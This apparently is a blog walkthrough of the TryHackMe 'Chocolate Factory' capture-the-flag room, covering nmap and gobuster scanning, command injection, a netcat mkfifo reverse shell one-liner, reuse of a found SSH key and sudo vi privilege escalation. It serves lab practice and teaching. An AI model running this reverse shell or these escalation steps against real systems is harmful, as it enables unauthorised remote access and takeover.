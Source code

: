 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: cholocate.tryhackme/titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```

Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners. 
Let’s get started. Firstly Deploy the machine and wait a minute for getting the IP address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)


## Reconnaissance
 
     sudo nmap -sV -sC -v <ip>
    
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
      -v: verbose mode 
     
The result looks like,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see FTP running on port 21, ssh running on port 22, and webserver in port 80 Then try Open browser enter IP address default web server running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying SQL injection but nothing changes, So Check the directories using the gobuster tool.

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 
#### Enumeration 

OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  Try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
  Remember one thing disable ufw firewall before the listening netcat. <br />
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   Use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   Then list out the file and read the file..
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   Change the user to charlie <br/>
   /home/charlie and list all files <br />
   Found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change the permission.
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   Login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  Read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  Check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   Get root permission using vi.<br />
   Use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   Search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   Copy the command and paste into the terminal and hit enter <br />
   Now root user <br >
   Change charlie to root <br />
   
    su root
   
   
   List the files and run python file, enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  
